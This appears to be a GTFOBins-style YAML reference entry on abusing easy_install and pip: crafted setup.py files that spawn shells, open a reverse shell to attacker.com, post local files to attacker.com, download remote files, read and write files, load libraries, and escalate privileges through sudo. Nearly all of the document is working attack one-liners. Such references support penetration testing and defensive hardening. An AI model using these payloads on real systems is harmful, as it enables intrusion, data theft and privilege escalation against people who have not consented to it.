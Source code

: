 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        easy_install $TF
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp -d)
        echo 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' > $TF/setup.py
        easy_install $TF
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
        easy_install $TF
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        easy_install $TF
  download:
    - description: Fetch a remote file via HTTP GET request. It needs an absolute local file path.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
        pip install $TF
  file-write:
    - description: It needs an absolute local file path.
      code: |
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', 'python', '-c', 'open(\"/tmp/file_to_write\",\"w+\").write(\"DATA\")')" > $TF/setup.py
        easy_install $TF
  file-read:
    - description: The read file content is wrapped within program messages.
      code: |
        TF=$(mktemp -d)
        echo 'print(open("file_to_read").read())' > $TF/setup.py
        easy_install $TF
  load-library:
    - code: |
        TF=$(mktemp -d)
        echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
        easy_install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        sudo easy_install $TF
---
```

